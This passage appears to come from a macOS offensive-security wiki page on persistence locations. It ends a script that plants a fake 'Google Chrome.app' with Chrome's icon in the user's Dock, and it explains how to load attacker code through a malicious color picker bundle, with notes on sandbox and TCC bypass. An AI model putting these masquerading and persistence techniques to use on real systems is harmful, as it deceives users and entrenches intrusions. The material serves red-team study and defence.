 ```bash
    <key>CFBundleVersion</key>
    <string>1.0</string>
    <key>CFBundleShortVersionString</key>
    <string>1.0</string>
    <key>CFBundleInfoDictionaryVersion</key>
    <string>6.0</string>
    <key>CFBundlePackageType</key>
    <string>APPL</string>
    <key>CFBundleIconFile</key>
    <string>app</string>
</dict>
</plist>
EOF

# Copy icon from Google Chrome
cp /Applications/Google\ Chrome.app/Contents/Resources/app.icns /tmp/Google\ Chrome.app/Contents/Resources/app.icns

# Add to Dock
defaults write com.apple.dock persistent-apps -array-add '<dict><key>tile-data</key><dict><key>file-data</key><dict><key>_CFURLString</key><string>/tmp/Google Chrome.app</string><key>_CFURLStringType</key><integer>0</integer></dict></dict></dict>'
killall Dock
```

### Color Pickers

Writeup: [https://theevilbit.github.io/beyond/beyond\_0017](https://theevilbit.github.io/beyond/beyond\_0017/)

* Useful to bypass sandbox: [🟠](https://emojipedia.org/large-orange-circle)
  * A very specific action needs to happen
  * You will end in another sandbox
* TCC bypass: [🔴](https://emojipedia.org/large-red-circle)

#### Location

* `/Library/ColorPickers`
  * Root required
  * Trigger: Use the color picker
* `~/Library/ColorPickers`
  * Trigger: Use the color picker

#### Description & Exploit

**Compile a color picker** bundle with your code (you could use [**this one for example**](https://github.com/viktorstrate/color-picker-plus)) and add a constructor (like in the [Screen Saver section](macos-auto-start-locations.md#screen-saver)) and copy the bundle to `~/Library/ColorPickers`.

Then, when the color picker is triggered your should should be aswell.

Note that the binary loading your library has a **very restrictive sandbox**: `/System/Library/Frameworks/AppKit.framework/Versions/C/XPCServices/LegacyExternalColorPickerService-x86_64.xpc/Contents/MacOS/LegacyExternalColorPickerService-x86_64`
